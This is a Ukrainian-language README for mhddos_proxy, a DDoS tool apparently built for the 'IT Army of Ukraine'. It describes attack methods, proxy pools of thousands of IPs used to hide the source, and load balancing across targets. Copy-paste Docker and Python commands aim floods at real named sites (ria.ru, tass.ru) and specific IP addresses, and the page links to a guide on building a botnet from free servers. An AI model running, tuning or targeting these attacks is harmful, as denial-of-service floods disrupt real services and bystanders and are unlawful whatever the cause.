 ## DDoS Tool for IT Army of Ukraine 

- Вбудована база проксі для атаки з величезної кількості IP по всьому світу
- Можливість атаки багатьох цілей з автоматичним балансуванням навантаження
- Безліч різноманітних методів для атаки
- Ефективне використання ресурсів завдяки асихронній архітектурі

### ⏱ Останні оновлення

- **15.05.2022**
  - Повністю оновлена асинхронна версія, що забезпечує максимальну ефективність та мінімальне навантаження на систему
  - Ефективна робота зі значно більшими значеннями параметру `-t` (до 10k) без ризику "підвісити" усю машину
  - Абсолютно новий алгоритм розподілення навантаження між цілями з метою досягнення максимальної потужності атаки
  - Додано атаки `RGET`, `RHEAD`, `RHEX` та `STOMP`.

<details>
  <summary>📜 Раніше</summary>

- **23.04.2022** 
  - Змінено прапорець `--vpn` - тепер ваш IP/VPN використовується **разом** із проксі, а не замість. Щоб досягти попередньої поведінки, використайте `--vpn 100`
- **20.04.2022**
  - Значно покращене використання ресурсів системи для ефективної атаки
  - Додано параметр `--udp-threads` для контролю потужності UDP атак (за замовчуванням 1)
- **18.04.2022** 
  - В режимі `--debug` додано статистику "усього" по всіх цілях
  - Додано більше проксі
- **13.04.2022** 
  - Додано можливість відключати цілі та додавати коментарі у файлі конфігурації - тепер рядки що починаються на символ # ігноруються
  - Виправлено проблему повного зависання скрипта після тривалої роботи та інші помилки при зміні циклу
  - Виправлено відображення кольорів на Windows (без редагування реєстру)
  - Тепер у випадку недоступності усіх цілей скрипт буде очікувати, замість повної зупинки
- **09.04.2022** Нова система проксі - тепер кожен отримує ~200 проксі для атаки з загального пулу понад 10.000. Параметри `-p` (`--period`) та `--proxy-timeout` більше не використовуються
- **04.04.2022** Додано можливість використання власного списку проксі для атаки - [інструкція](#власні-проксі)
- **03.04.2022** Виправлена помилка Too many open files (дякую, @kobzar-darmogray та @euclid-catoptrics)
- **02.04.2022** Робочі потоки більше не перезапускаються на кожен цикл, а використовуються повторно. Також виправлена робота Ctrl-C
- **01.04.2022** Оновленно метод CFB у відповідності з MHDDoS.
- **31.03.2022** Додано надійні DNS сервери для резолвінгу цілі, замість системних. (1.1.1.1, 8.8.8.8 etc.)
- **29.03.2022** Додано підтримку локального файлу конфігурації (дуже дякую, @kobzar-darmogray).
- **28.03.2022** Додано табличний вивід `--table` (дуже дякую, @alexneo2003).
- **27.03.2022**
    - Дозволено запуск методів DBG, BOMB (дякую @drew-kun за PR) та KILLER для відповідності оригінальному MHDDoS.
- **26.03.2022**
    - Запуск усіх обраних атак, замість випадкового вибору
    - Зменшено використання RAM на великій кількості цілей - тепер на RAM впливає тільки параметр `-t`
    - Додане кешування DNS і корректна обробка проблем з резолвінгом
- **25.03.2022** Додано режим VPN замість проксі (прапорець `--vpn`)
- **25.03.2022** MHDDoS включено до складу репозиторію для більшого контролю над розробкою і захистом від неочікуваних
  змін
</details>

### 💽 Встановлення | Installation - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск | Running (наведено різні варіанти цілей)

#### Docker

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (якщо не працює - просто python замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування (більше у розділі [CLI](#cli))

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - максимальна кількість одночасно відкритих зʼєднань, за замовченням - 1000 (якщо на машині одне CPU) або 7500 (якщо більше одного).

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--table` для таблиці, `--debug` для тексту

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru

### 📌Автоматичний шукач нових проксі для mhddos_proxy
Сам скрипт та інструкції по встановленню тут: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Комьюніті
- [Детальний розбір mhddos_proxy та інструкції по встановленню](docs/installation.md)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Створення ботнету з 30+ безкоштовних та автономних(працюють навіть при вимкненому ПК) Linux-серверів](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with attack targets
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Use both my IP and proxies for the attack. Optionally, specify a percent of using my IP (default is 10%)
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(s) attack methods to use (default is GET + POST|STRESS).

### Власні проксі

#### Формат файлу:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT
де `protocol` може бути одним з 3-ох: http | socks4 | socks5, якщо `protocol`не вказувати, то буде обрано за замовчуванням - http  
наприклад для публічного проксі: protocol=socks4 IP=114.231.123.38 PORT=3065 формат буде таким:  
```shell
socks4://114.231.123.38:3065
```
а для приватного: protocol=socks4 IP=114.231.123.38 PORT=3065 username=isdfuser password=ashd1spass формат може бути одним з таких:  
```shell
socks4://114.231.123.38:3065:isdfuser:ashd1spass
socks4://isdfuser:ashd1spass@IP:PORT
```
  
**URL - Віддалений файл для Python та Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
де https://pastebin.com/raw/UkFWzLOt - ваша веб-сторінка зі списком проксі (кожен проксі з нового рядка)  
  
**path - Для Python**  
  
Покладіть файл у папку з `runner.py` і додайте до команди наступний прапорець (замініть `proxies.txt` на ім'я свого файлу)

    python3 runner.py --proxies proxies.txt https://ria.ru

де proxies.txt - ваша ваш файл зі списком проксі (кожен проксі з нового рядка)
